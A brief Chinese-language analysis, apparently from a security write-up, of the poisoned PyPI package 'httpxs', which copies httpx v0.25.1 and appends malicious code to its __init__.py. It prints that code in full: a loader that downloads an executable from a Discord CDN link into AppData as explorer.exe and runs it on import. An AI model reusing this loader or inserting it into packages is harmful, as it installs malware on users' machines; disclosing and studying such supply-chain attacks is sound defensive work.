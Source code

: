 投毒包 httpxs 通过克隆 httpx v0.25.1 版本源码，并将 httpx 项目的 **init**.py 文件末尾植入恶意 python 代码；  
[![](assets/1710900786-d4cb38129bed17b85ff9cc4dc8fe89e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229154250-23b3a3b0-d6d6-1.png)

当 python 项目错误加载恶意 httpxs 组件时，**init**.py 中的恶意 python 代码将得到执行。

```plain
import requests
import subprocess
import threading
import os

path = os.environ["USERPROFILE"] + "\AppData\Local\explorer.exe"

def process() -> None:
    if os.path.exists(path):
        subprocess.run(path, shell=True)

def download() -> None:
    response = requests.get("https://cdn.discordapp.com/attachments/1167794996854915172/1176286066026750074/run_for_money.exe?ex=656e50c4&is=655bdbc4&hm=cca58d210eaf8cee1ba47b9d92f9ce5814998a785e827885331ab77ab5c6d587&")

    if response.status_code != 200:
        exit()

    with open(path, 'wb') as file:
        file.write(response.content)

def execute() -> None:
    thread = threading.Thread(target=process)
    thread.start()

download(); execute()
```
